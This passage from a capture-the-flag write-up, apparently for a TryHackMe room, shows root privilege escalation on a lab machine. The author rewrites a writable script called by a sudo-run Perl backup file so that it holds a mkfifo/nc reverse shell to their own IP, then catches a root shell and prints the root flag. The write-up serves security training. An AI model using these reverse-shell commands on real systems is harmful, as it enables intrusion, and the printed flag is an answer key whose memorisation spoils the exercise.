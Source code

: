 ```
$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

The `./backup.pl` script executes the `/etc/copy.sh` script.

Let's check what that script does.

```
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

So it establishes a reverse shell to 192.168.0.190 on port 5554.

We can replace the IP and port to our own so that the reverse shell connection is sent to us.

```
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.48.138 9990>/tmp/f' > /etc/copy.sh
```

We now have to set up a `nc` listener and execute the `/home/itguy/backup.pl` script using `sudo`. 

```
$ sudo /usr/bin/perl /home/itguy/backup.pl
```

Let's check our `nc` listener.

```
$ nc -nlvp 9990
listening on [any] 9990 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.37.233] 45084
/bin/sh: 0: can't access tty; job control turned off
# 
```

As we can see, the reverse shell connection has been caught by our listener.

We can now read the root flag.

```
# cat /root/root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

### Answer
```
THM{6637f41d0177b6f37cb20d775124699f}
```
